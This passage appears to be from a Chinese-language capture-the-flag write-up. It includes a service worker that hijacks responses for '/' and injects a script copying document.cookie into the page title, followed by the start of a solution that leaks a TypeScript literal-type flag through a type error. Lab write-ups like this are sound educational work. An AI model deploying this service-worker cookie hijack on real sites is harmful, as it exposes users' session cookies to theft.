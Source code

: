 ```html
              console.log("已安装 Service worker installed");
            } else if (registration.active) {
              console.log("激活 Service worker");
            }
          } catch (error) {
            console.error(`注册失败：${error}`);
          }
        }
      };
      registerServiceWorker();
    </script>
  </body>
</html>
```

```javascript
// {"Service-Worker-Allowed": "/", "Content-Type": "text/javascript"}

self.addEventListener('install', function(event) {
  event.waitUntil(self.skipWaiting()); // 强制当前处在 waiting 状态的 Service Worker 进入 activate 状态
});

self.addEventListener('fetch', function(event) {
  if (event.request.url.endsWith('/')) {
    event.respondWith(new Response('<body><script>setInterval(function(){document.title = document.cookie;}, 100);</script></body>', {headers: {'Content-Type': 'text/html'}}));
  }
});

self.addEventListener('activate', function(event) {
  event.waitUntil(self.clients.claim());
});
```
## 10. 简单的打字稿

### Super Easy

第一问的 `flag1` 是一个字符串，因为不会写 TS 查阅了一下有关文献得知这玩意是一个 `literal type`。

然而我没有找到什么好办法来打印一个 type，但让 TS 触发类型检查错误可以打印出相关的 type 信息。

```typescript
type fff = 'glaf{aaaaaaa}'
var b: fff = '1'
/*
[+] Stderr:
Check file:///app/$deno$stdin.ts
error: TS2322 [ERROR]: Type '"1"' is not assignable to type '"glaf{aaaaaaa}"'.
var b: fff = '1'
    ^
    at file:///app/$deno$stdin.ts:5:5
*/
```
